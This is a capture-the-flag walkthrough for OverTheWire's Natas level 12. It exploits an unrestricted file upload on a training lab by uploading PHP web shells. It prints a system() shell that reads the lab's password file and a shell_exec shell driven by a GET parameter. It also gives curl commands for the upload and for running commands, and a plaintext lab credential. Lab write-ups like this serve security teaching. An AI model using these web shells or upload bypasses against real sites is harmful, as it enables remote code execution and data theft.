# 🕸️Natas Level 12 → Level 13

```
http://natas12.natas.labs.overthewire.org
```
Username: natas12  
Password: (natas12_password)



In the *source page*, we can see that the code only permits files smaller than **1KB** and then renames the uploaded file to a *random string*.




### 🔓 What is Unrestricted File Upload?
**Unrestricted File Upload** is a type of web security vulnerability that occurs when a web application allows users to upload files without properly validating or restricting what kinds of files are accepted.  

In simple terms, it means the website lets users upload any kind of file (e.g., ``.php``, ``.exe``, ``.js``, etc.) without checking if it’s safe.

### ⚠️ Why It’s Dangerous
If an attacker can upload a malicious file, they might:
- Execute code on the server (Remote Code Execution – RCE)
- Deface the website
- Bypass authentication
- Steal data or escalate privileges

### 🐘 PHP crash course
In PHP, you can interact with the underlying system shell (execute commands, get output, etc.) using built-in functions such as:
- ``exec()``
- ``shell_exec()``
- ``system()``
- ``passthru()``
- ``proc_open()``  

However, these functions can be very dangerous if not handled securely (they can lead to command injection vulnerabilities), so use them carefully — never run user-supplied input without sanitizing or escaping it.

**To complete this challenge**, there are several ways to reach the goal 🏁 — but I’ll walk you through three main methods:  
- 🖱️ Method 1: GUI (Graphical User Interface)
- 💻 Method 2: CLI (Command-Line Interface)
- 🧠 Method 3: Semi-Interactive Shell

Each approach has its own advantages, so you can choose the one that best fits your workflow! ⚙️🚀

### 🖱️ Method 1: GUI (Graphical User Interface)

First, let’s create a new PHP file and insert the following code into it.
```
<?php echo system("cat /etc/natas_webpass/natas13"); ?>
```


Then, navigate to the site’s upload form and upload the `shell.php` file



Next, *right-click* and choose **Inspect** to examine the page.



Next, modify the file’s *extension* from ``.jpg`` to ``.php``.



After that, click on “Upload File” to proceed.


Next, click on the *link* to navigate to it.



By completing the steps accurately, the flag will show up.



### 💻 Method 2: CLI (Command-Line Interface)

Execute the `curl` command below to submit a POST request to the site.
```
curl -X POST \
-F "filename=php_shell.php" \
-F "uploadedfile=@php_shell.php;type=image/jpeg" \
-u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB \
http://natas12.natas.labs.overthewire.org/
```


Copy the file’s location, append it to the `URL`, and then execute the following command.
```
curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB \
http://natas12.natas.labs.overthewire.org/upload/8i5qgdvcmy.php
```


By performing the steps correctly, you’ll see the flag appear.



### 🌀useful curl command


### 🧠 Method 3: Semi-Interactive Shell

Create a PHP file and copy the code into the file.
```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```


Upload the file, rename its extension, and then click the “Upload File” button.



Click on the link to open and see the file location.



Opening this page will show an error message.



Append ``?e=ls`` to the end of the URL to test it.
```
http://natas12.natas.labs.overthewire.org/upload/drte84is1r.php?e=ls
```


Next, modify the command to achieve the desired result.
```
http://natas12.natas.labs.overthewire.org/upload/ya8auwyyhi.php?e=cat%20/etc/natas_webpass/natas13
```


The flag will be displayed once all steps are completed correctly.



### 📚 Recommended Materials for Deeper Understanding
💻 Learning PHP:  
<a href="https://www.w3schools.com/php/" target="_blank">
    https://www.w3schools.com/php/
</a>  
🛠️ Full Interactive PHP Webshell (for authorized testing/labs only):  
<a href="https://github.com/flozz/p0wny-shell" target="_blank">
    https://github.com/flozz/p0wny-shell
</a>  

Flag secured! Ready for the next challenge?


